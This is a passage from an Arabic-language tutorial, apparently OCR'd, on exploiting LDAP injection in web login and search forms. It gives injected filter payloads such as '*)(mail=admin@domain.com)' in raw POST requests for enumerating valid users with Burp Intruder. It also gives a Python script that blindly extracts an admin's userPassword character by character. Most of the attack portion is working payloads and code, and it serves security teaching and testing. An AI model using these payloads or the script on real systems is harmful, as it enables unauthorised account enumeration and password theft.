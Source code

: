        username=*)(mail=admin@domain.com)&password=anything
       ```
  2. إذا أعادت الاستجابة رمز 200 أو "User found"، فالبريد `admin@domain.com` موجود.
  3. جرب أسماء مستخدمين شائعة (مثل `user1`, `administrator`):
     - Username: `*)(mail=user1@domain.com)`
     - طلب:
       ```
       POST /login HTTP/1.1
       Host: example.com
       Content-Type: application/x-www-form-urlencoded

       username=*)(mail=user1@domain.com)&password=anything
       ```
  4. كرر باستخدام قائمة أسماء مستخدمين (مثل `admin, user1, guest`) في Burp Intruder.

- **النتيجة المتوقعة**:
  - `mail=admin@domain.com` يعيد "User found"، مما يؤكد وجود المستخدم.
  - `mail=user1@domain.com` يعيد "Invalid"، مما يشير إلى عدم وجود المستخدم.
  - تحصل على قائمة بأسماء المستخدمين الصالحين (مثل `admin@domain.com`, `administrator@domain.com`).
- **الأوامر/الإجراءات**:
  - في Burp Intruder، استخدم قائمة بريد (مثل `admin@domain.com`, `user1@domain.com`) واضبط الموضع:
    ```
    *)(mail=§admin@domain.com§)
    ```
  - راجع الاستجابات لتحديد العناوين الصالحة.

---

### الخطوة 5: أتمتة الاختبار باستخدام السكربتات
**الهدف**: أتمتة تخمين الخصائص الصالحة أو الاستغلال الأعمى لتوفير الوقت.

**مثال عملي**:
- **السيناريو**: تريد أتمتة تخمين كلمة مرور `userPassword` لمستخدم `admin` باستخدام الاستغلال الأعمى.
- **الأدوات**: Python مع مكتبة `requests`.
- **الإجراء**:
  1. أنشئ سكربت Python لتخمين `userPassword` حرفًا بحرفًا:
     ```python
     #!/usr/bin/python3
     import requests
     import string
     alphabet = string.ascii_letters + string.digits + "_@{}-/()!\"$%=^[]:;"

     flag = ""
     url = "http://example.com?action=dir&search="
     for i in range(20):  # الحد الأقصى لطول كلمة المرور
         print("[i] Looking for character " + str(i + 1))
         for char in alphabet:
             payload = "admin*)(userPassword=" + flag + char + "*"
             r = requests.get(url + payload)
             if "Result found" in r.text:  # شرط النجاح
                 flag += char
                 print("[+] Flag: " + flag)
                 break
     ```
  2. احفظ السكربت كـ `blind_injection.py`.
  3. شغّل السكربت:
     ```
     python3 blind_injection.py
     ```
  4. راقب المخرجات للحصول على كلمة المرور (مثل `MYKE`).
